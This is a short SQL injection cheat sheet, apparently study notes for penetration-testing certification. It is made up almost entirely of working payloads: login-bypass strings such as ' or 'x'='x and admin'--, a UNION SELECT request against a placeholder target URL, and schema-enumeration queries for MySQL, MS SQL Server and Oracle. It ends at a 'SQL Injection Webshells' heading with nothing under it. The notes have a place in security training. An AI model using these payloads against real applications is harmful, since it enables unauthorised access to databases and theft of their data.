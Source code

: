     " or "" "
    " or ""&"
    " or ""^"
    " or ""*"
    or true--
    " or true--
    ' or true--
    ") or true--
    ') or true--
    ' or 'x'='x
    ') or ('x')=('x
    ')) or (('x'))=(('x
    " or "x"="x
    ") or ("x")=("x
    ")) or (("x"))=(("x   
    
For a row 

    http://target-ip/inj.php?id=1 union all select 1,2,3,4,5,6,7,8      
Known Username

    admin’ - -
    admin’) - -
    
Using error-bases DB enumeration

    Add the tick '
    Enumerate columns  
    
Using order by
https://sushant747.gitbooks.io/total-oscp-guide/sql-injections.html

Figuring out schema   
MySQL:   
Databases: SELECT schema_name FROM information_schema.schemata   
Tables: SELECT table_name FROM information_schema.tables   
Columns: SELECT column_name FROM information_schema.columns   
#enum info
text UNION SELECT 1,@@version,user(),system_user(),database(),3,4,5,6,8,10,11
user() - username and hostname of account, system_user() - account name used by Windows auth     


MS SQL Server:   
Note: information_schema can be used for MS SQL Server as well, with some slight, but significant, differences. The queries will need to explicitly reference individual databases because information_schema is a view that provides only info on the current database. Databases: SELECT name FROM sys.databases   
Tables: SELECT name FROM sys.tables    
Columns: SELECT name FROM sys.columns    

Oracle:   
Schemas: SELECT owner FROM all_tables   
Tables: SELECT table_name FROM all_tables   
Columns: SELECT column_name FROM all_tab_columns   
	 
 SQL Injection Webshells
 